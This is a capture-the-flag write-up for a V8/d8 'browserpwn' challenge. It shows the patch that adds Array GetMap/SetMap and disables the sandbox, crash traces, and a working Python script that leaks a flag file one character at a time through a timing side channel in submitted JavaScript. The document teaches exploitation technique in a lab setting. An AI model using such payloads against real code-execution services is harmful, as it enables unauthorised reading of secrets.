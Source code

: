 # buzzword-browserpwn

[library.m0unt41n.ch/challenges/buzzword-browserpwn](https://library.m0unt41n.ch/challenges/buzzword-browserpwn) ![](../../resources/pwn.svg) ![](../../resources/hard.svg) 

# TL;DR

A Flask app that allows running custom code with an embedded `d8` binary.
The code can read the flag via d8's `read()` function, which enables a
timing-based attack.

# The app

A _really_ very simple app:

*   `GET /` renders a simple `index.html`, with a `POST /run` form,
    that takes `js_input` as a textarea.
*   `POST /run` takes that input, creates `/tmp/run.js`, starts
    `/home/v8/d8 --no-memory-protection-keys /tmp/run.js` and
    renders fully static `run.html`.

So, we can get the `d8` to run an arbitrary piece of JS - but with no
way to get the result back.

# d8 runner

`d8` is the debug console of `v8` runtime. With some Google searching:

*   [v8.dev/docs/d8](https://v8.dev/docs/d8)
*   [Useful built-in functions and objects in d8](https://riptutorial.com/v8/example/25393/useful-built-in-functions-and-objects-in-d8)
*   [Volatility plugin](https://github.com/BiTLab-BaggiliTruthLab/V8-Memory-Forensics-Plugins/blob/main/plugins/V8MapScan.py)
    for analyzing V8 heap dumps (likely: the included `snapshot_blob_bin`).
*   [Somewhat related vulnerability analysis](https://ssd-disclosure.com/turborand-v8-type-confusion-private-property-leak/)

## `vuln.patch`

There is a patch file, whose main functionality seems to be adding
`GetMap()` and `SetMap()` methods to the `Array` object.

```c
BUILTIN(ArrayGetMap) {
  Handle<JSReceiver> receiver;
  ASSIGN_RETURN_FAILURE_ON_EXCEPTION(
    isolate, receiver, Object::ToObject(isolate, args.receiver()));

  Handle<JSArray> array = Handle<JSArray>::cast(receiver);
  return array->map();
}

BUILTIN(ArraySetMap) {
  Handle<JSReceiver> receiver;
  ASSIGN_RETURN_FAILURE_ON_EXCEPTION(
    isolate, receiver, Object::ToObject(isolate, args.receiver()));

  Handle<JSArray> array = Handle<JSArray>::cast(receiver);
  Handle<Map> newMap = args.at<Map>(1);
  JSObject::MigrateToMap(isolate, array, newMap);
  return ReadOnlyRoots(isolate).undefined_value();
}
```

This can be ***sort of*** confirmed by running `d8`:

*   `GetMap()`:

    ```
    $ ./d8 
    V8 version 12.3.0 (candidate)
    
    d8> let a = [1, 2, 3];
    undefined

    d8> a.GetMap()
    abort: Unexpected instance type encountered
    ==== JS stack trace =========================================
        0: ExitFrame [pc: 0x5586c85b5fb6]
        1: StubFrame [pc: 0x5586c86a2992]
    (...)
     #1# 0x2c440004b455: 0x2c440004b455 <JSFunction isProxy (sfi = 0x2c440019af9d)>
    =====================
    Trace/breakpoint trap (core dumped)
    ```

*   `SetMap()`

    ```
    $ ./d8
    V8 version 12.3.0 (candidate)

    d8> let a = [1, 2, 3];
    undefined

    d8> a.SetMap(0);
    Received signal 11 SEGV_MAPERR 00000000000b
    ==== C stack trace ===============================
     [0x5603673646d3]
     [0x560367364622]
     [0x7fe3f44be090]
     [0x56036648003a]
     [0x56036605f11f]
     [0x5603671dbeb6]
    [end of stack trace]
    Segmentation fault (core dumped)
    ```

"Sort of", as this is obviously not the intended behavior &#128578; but still, this
confirms that these methods are there.

Separately, the `vuln.patch` comments out `V8_ENABLE_SANDBOX` in he build file.
So, overall, we have:

*   Two custom function for accessing runtime internals
*   Disabled sandbox
*   `--memory-protection-keys` (protect code memory with PKU if available)

# JS-only solution?

Before digging deeper into exploiting the low-level V8 vulnerability: we have
a somewhat-arbitrary JS execution. What can we do there?

*   First of all: we can read the flag, with built-in
    [read(fname)](https://source.chromium.org/chromium/chromium/src/+/main:v8/src/d8/d8.cc;l=3793;bpv=1;bpt=1):

    ```javascript
    flag = read("/home/v8/flag");
    console.log(flag);
    ```

    That prints the flag on the Docker console.

*   [Above command list](https://riptutorial.com/v8/example/25393/useful-built-in-functions-and-objects-in-d8)
    mentions `os.system(command)`. That would be very convenient - while
    most of the files inside `/home/v8` are owned by root, we have just enough
    permissions to delete the `/home/v8/d8` and overwrite it with something custom.

    Unfortunately, `os.system` is not available in the provided d8. This is because it is
    [conditional on a flag](https://source.chromium.org/chromium/chromium/src/+/main:v8/src/d8/d8-posix.cc;l=748-750)
    that is not set here.

*   My next idea was to overwrite the `run.html` template with a flag. We **do** have
    access to `writeFile(fname, s)`
    ([source](https://source.chromium.org/chromium/chromium/src/+/main:v8/src/d8/d8.cc;l=3790;bpv=1;bpt=1))
    and that *does* allow copying the flag around:

    ```javascript
    flag = read("/home/v8/flag");
    writeFile("/tmp/index.html", flag);
    ```

    This creates a file in `/tmp`. But, we can't overwrite the HTML template,
    because of permission problem above.

*   Overall, there are very few places we can write to:

    ```bash
    $ find / -writable 2>/dev/null | grep -Ev '^/(proc|dev)'
    /var/lock
    /var/tmp
    /run/lock
    /home/v8
    /home/v8/.bashrc
    /home/v8/.bash_logout
    /home/v8/.profile
    /tmp
    ```

# Time-based attack

With all the direct options off the table, we still have arbitrary code execution.
That should enable time-based attack?

First problem: there is no `sleep()` in the d8 environment. But, while looking into
that, I found even more interesting one: the d8 runtime was *very* prone to crashing.
In particular, a simple, infinite `for` loop, crash-dumped, only after about a second.

Lack of `sleep()` seems to be a
[common JS question](https://www.google.com/search?q=implementing+sleep+in+javascript+with+async+await+promise).
I found some more fancy solutions (using Promises and async execution), but none of
them worked reliably. But, fortunately, my d8 crashed _just slowly enough_ that,
compared to a quick return, there was just enough difference to mount a timing attack:

```python
import requests
import time

URL = "http://localhost:1337/run"
CHARSET = "abcdefghijklmnopqrstuvwxyz0123456789_ABCDEFGHIJKLMNOPQRSTUVWXYZ}{!#$%&()+,-./:;<=>@[]^`|~ "
TIME_THRESHOLD = 0.3   # 0.12 for remote

flag = ""
for pos in range(9999):
    for c in CHARSET: 
        JS = "flag=read('/home/v8/flag');\nif (flag["+str(pos)+"]=='"+c+"') while(1) { }"
        t = time.time()
        requests.post(URL, data={"js_input": JS})
        t = time.time() - t
        if t > TIME_THRESHOLD:
            break
    flag += c
    print(flag)
    if c==" " or c=='}':
        break
```

This worked locally &#128578;

Interestingly, to get the remote flag, I had to change time threshold to **lower**
value than on the local one (`0.3` -> `0.12`). That's probably because my machine
can handle v8 abuse for a bit longer than the remote container. Then, the result:

```
s
sh
shc

(...)

shc2024{chr0m3_v8_pwn3d_br0ws3r_3xpl01t4t10
shc2024{chr0m3_v8_pwn3d_br0ws3r_3xpl01t4t10n
shc2024{chr0m3_v8_pwn3d_br0ws3r_3xpl01t4t10n}
```

---

## `shc2024{chr0m3_v8_pwn3d_br0ws3r_3xpl01t4t10n}`



<hr>

&copy; [muflon77](https://library.m0unt41n.ch/players/805ae1c8-9fe4-5816-b4a4-5057fa6eedb1)

